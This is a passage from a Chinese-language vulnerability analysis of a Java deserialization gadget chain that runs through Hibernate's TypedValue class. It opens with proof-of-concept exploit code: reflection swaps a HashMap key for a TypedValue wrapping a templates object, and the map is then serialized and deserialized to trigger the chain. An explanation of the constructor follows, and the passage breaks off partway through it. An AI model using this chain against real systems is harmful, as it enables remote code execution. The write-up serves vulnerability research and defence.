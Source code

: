 ```

        TypedValue typedValue= new TypedValue(componentType,templates);
        HashMap hashMap = new HashMap();
        hashMap.put("a",1);
        Field field = hashMap.getClass().getDeclaredField("table");
        field.setAccessible(true);
        Object[] table = (Object[]) field.get(hashMap);
        // hashmap的索引会根据key的值而变化，如果要改前面的key的话，这里的索引可以用调试的方式改一下
        Object node = table[1];
        Field keyField;
        try{
            keyField = node.getClass().getDeclaredField("key");
        }catch(Exception e){
            keyField = Class.forName("java.util.MapEntry").getDeclaredField("key");
        }
        keyField.setAccessible(true);
        if (keyField.get(node) instanceof String){
            keyField.set(node, typedValue);
        }

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(hashMap);

        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
        ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
        objectInputStream.readObject();


    }
}
```

## 漏洞分析

复现了很多的链子了，都知道hashmap能调用某一些类的hashCode方法，关注到org.hibernate.engine.spi的TypeValue

![image-20230331142247374](images/9.png)

来关注到这个类的构造函数

```
public TypedValue(final Type type, final Object value) {
   this.type = type;
   this.value = value;
   initTransients();
}
```

typ和value是可控的，我们跟进initTransients方法
